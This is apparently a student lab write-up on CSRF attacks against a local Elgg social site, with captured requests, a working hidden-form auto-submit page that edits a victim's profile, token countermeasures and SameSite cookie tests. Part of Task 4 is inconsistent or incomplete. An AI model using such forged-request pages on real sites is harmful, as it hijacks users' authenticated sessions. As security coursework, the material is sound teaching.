# 50.020 Network Security Lab 6 CSRF Writeup
## Setting up the Lab Environment
1. Ran the docker-compose file as instructed in the lab manual and set of the environment.
    - 
    - as per the lab manual:
        - the elgg webserver is running on `10.9.0.5`
        - the elgg sql database is running on `10.9.0.6`
        - attacker container running on `10.9.0.105`

## Task 1: Observing HTTP Requests
1. Using the Firefox live headers extension and capture this HTTP GET request upon entering the `www.seed-server.com` site.
    - 
    - there are no parameters in the GET request, we see that the context is empty.
2. Then using a random username and password to try to login, I captured the HTTP POST request.
    - 
    - we see that the POST request contains the `username`, `password` and `__elgg_token` parameters, which where the parameters I tried to login with. 
## Task 2: CSRF using GET request
**Important Note:** In order to get this attack to work, I had to turn off the CSRF protection on firefox. This can be be done by:
1. go to `about:preferences#privacy` URL on firefox
2. Set `Enhanced Tracking Protection` to `Custom`
3. Uncheck everything
4. 

1. We first go and check what the legitimate "Add Friends" HTTP GET request looks like, so in the elgg site:
    1. I go to sammy's profile page `http://www.seed-server.com/profile/samy`
    2. Then I click on the "Add Friend" button.
    3. Then I capture this HTTP GET request using the live headers extension.
        - 
        - we see that the GET request contains this:
        - ```
            http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1763437181&__elgg_token=8kAMDuKRCXTa_rLoLV73mw&__elgg_ts=1763437181&__elgg_token=8kAMDuKRCXTa_rLoLV73mw
            ```
        - we do not know what the `friend` parameter value means, so we can try to add another user and see how the GET request looks like.
    4. I go to `http://www.seed-server.com/profile/charlie` and add him as friend
        - 
        - Then we see that the GET request contains this:
        - ```
            http://www.seed-server.com/action/friends/add?friend=58&__elgg_ts=1763437513&__elgg_token=tJypzabXEw_N9jLBA8v9GA&__elgg_ts=1763437513&__elgg_token=tJypzabXEw_N9jLBA8v9GA
            ```
        - From this we can deduce that the `friend` parameter value is the user ID of the user we are trying to add as friend, so `59` is sammy's user ID and `58` is charlie's user ID.
    5. So now we know how the legitimate GET request looks like, we can now create our CSRF attack.
2. Next I navigate to the `www.attacker32.com/addfriend.html` page on the web browser.
    - 
    - We see that the `src` of the image tag is nothing yet.
    - All we have to do is to fill in the `src` attribute with the GET request we captured earlier.
3. So I open up the `addfriend.html` file in the attacker container and edit the html content to:
    - ```html
        <html>
        <body>
        <h1>This page forges an HTTP GET request</h1>
        
        </body>
        </html>
        ```
    - Then I save and reload the apache service using `service apache2 reload`.
4. Then I go back to the web browser, and while logged in as Alice, I navigate to the `www.attacker32.com/addfriend.html`
    - Then when I go back to Alice's friend list, I can see that Sammy has been added as friend.
    - 
    - This shows our attack was successful since now sammy is added as alice's friend.

## Task 3: CSRF using POST request
1. First we need to capture the edit profile POST request. 
    1. While logged in as Samy, I go to my profile at `http://www.seed-server.com/profile/samy` then click on the "Edit Profile" button.
    2. Then I type the message `Testiing Testing Message here 123` in the About Me section then click on save.
    3. Then I intercept the HTTP POST request using the live headers extension.
        - 
    4. We see that the POST request contains the following parameters:
        -  ```
            __elgg_token=_xWoOg14rIXMROtczUqzYw&__elgg_ts=1763440973&name=Samy&description=<p>Testing Testing Message here 123</p> &accesslevel[description]=2&briefdescription=&accesslevel[briefdescription]=2&location=&accesslevel[location]=2&interests=&accesslevel[interests]=2&skills=&accesslevel[skills]=2&contactemail=&accesslevel[contactemail]=2&phone=&accesslevel[phone]=2&mobile=&accesslevel[mobile]=2&website=&accesslevel[website]=2&twitter=&accesslevel[twitter]=2&guid=59
            ```
        - we can see the following parameters of interest:
            - `name` - name of the profile
            - `description` - The part to edit is here
            - `accesslevel[description]` - access level of the description field, set to 2 for public
            - `guid` - user ID of the user, 59 is samy, 56 is alice 
    5. We see that the `description` parameter is the one that contains the edited text in the About Me section.
2. Next I open up the `editprofile.html` in the attacker container and edit nested javascript function with the values I want.
    - Things that I set:
        1. Set the `name` value to `Alice`
        2. Set the `briefdescription` value to `Samy is my Hero`
        3. Set the `accesslevel[briefdescription]` value to `2`
        4. Set the `guid` value to `56` (alice's user ID)
        5. chang the p.action to `http://www.seed-server.com/action/profile/edit`, this is the URL for the endpoint editing profile
    - The complete html code is as follows:
        - ```html
            <html>
            <body>
            <h1>This page forges an HTTP POST request.</h1>
            <script type="text/javascript">

            function forge_post()
            {
                var fields;

                // The following are form entries need to be filled out by attackers.
                // The entries are made hidden, so the victim won't be able to see them.
                fields += "<input type='hidden' name='name' value='Alice'>";
                fields += "<input type='hidden' name='briefdescription' value='Samy is my Hero'>";
                fields += "<input type='hidden' name='accesslevel[briefdescription]' value='2'>";         
                fields += "<input type='hidden' name='guid' value='56'>";

                // Create a <form> element.
                var p = document.createElement("form");

                // Construct the form
                p.action = "http://www.seed-server.com/action/profile/edit";
                p.innerHTML = fields;
                p.method = "post";

                // Append the form to the current page.
                document.body.appendChild(p);

                // Submit the form
                p.submit();
            }


            // Invoke forge_post() after the page is loaded.
            window.onload = function() { forge_post();}
            </script>
            </body>
            </html>
            ```
    - Then I save and reload the apache service using `service apache2 reload`.
3. Then I go back to the web browser, and while logged in as Alice, I navigate to the `www.attacker32.com/editprofile.html`
    - Then now on Alice's profile page, we can see that the About Me section now contains `Samy is my Hero`.
    - 

### Task 3 Questions
1. Boby can go to the members list page at `http://www.seed-server.com/members` to see all the members of the site.
    - Then he can inspect the HTML of the page
    - He can see that each member entry contains the GUID of the user since the memebers table has `id="elgg-user-<GUID>"` furthermore, in the `elg-anchor-label` class, the href is set to the profile page of the user with the corresponding GUID.
    - 
    - It is easy for him to figure out the GUID of other users by inspecting the HTML of the members list page.
2. No he cannot since he doesn't know the target victim's guid, also it is not guaranteed that the target that visits his website is logged in to the elgg site and has an active session, hence his attack will not work.

## Task 4: Enabling elgg Countermeasures
1. as per the lab instructions, I open the `/var/www/elgg/vendor/elgg/elgg/engine/classes/Elgg/Security/Csrf.php` file in the elgg container and remove the `return` line
2. Then while logged in as Alice I go back to the elgg website and remove samy as my friend.
3. Now while still logged in as Alice, I will go to `www.attacker32.com/editprofile.html` now.
4. 
5. Then we can see that there is a `Form is missing __token or __ts fields` and the attack fails since Samy is no longer added as Alice's friends.
6. Then we try to run the edit profile attack again by navigating to `www.attacker32.com/editprofile.html`
7. 

## Task 5: SameSite Cookies
1. As per the instructions on the hand out, I navigate to `www.example32.com` and click on Link A first
2. Then on Link A page, I see this:
    - 
3. Then I click on the `Submit Get` button then I see this:
    - 
    - we see that when the request is a same-site request, all 3 types of the cookies are sent.
4. Then I click on the `Submit Post` button then I see this:
    - 
    - similarly here, we see that when the request is a same-site request, all 3 types of the cookies are sent.
5. Then now I go back to the main page and click on Link B
    - 
6. Then I click on the `Submit Get` button then I see this:
    - 
    - Here we see that when the request is a cross-site GET request, only the `cookie-normal` and `cookie-lax are sent`, the `cookie-strict` is not sent.
7. Then I click on the `Submit Post` button then I see this:
    - 
    - Here we see that when the request is a cross-site POST request, only the `cookie-normal` is sent, both the `cookie-lax` and `cookie-strict` are not sent.
## Task 5 Questions
- SameSite prevents the browser from sending cookies along with cross-site requests, since we want to prevent the risk of cross-origin information leaks, the possible values for SameSite are `Lax`, `Strict` and `None`.
    - `Lax` - cookies are not sent on cross-site sub-requests such as images or frames, but are sent when a user navigates to the URL from an external site, for example by following a link, usually done by HTTP GET requests.
    - `Strict` - cookies will only be sent in a first-party context and not be sent along with requests initiated by third party websites, usually done by HTTP GET and POST requests.
    - `None` - cookies will be sent in all contexts, i.e sending cookies to both first-party and cross-origin requests. Must be used in conjunction with the Secure attribute, which means cookies are only sent over secure connections.
- SameSite cookies help mitigate CSRF attacks by restricting how cookies are sent with cross-site requests. By setting the SameSite attribute to `Lax` or `Strict`, it limits the scenarios in which cookies are included in requests initiated from other sites, thereby reducing the risk of unauthorized actions being performed on behalf of an authenticated user.
- Elgg can use the `Strict` SameSite attribute for its session cookies. This ensure that if there are any redirections during the action session, then the cookie will not be sent along with the request, hence preventing CSRF attacks.


    
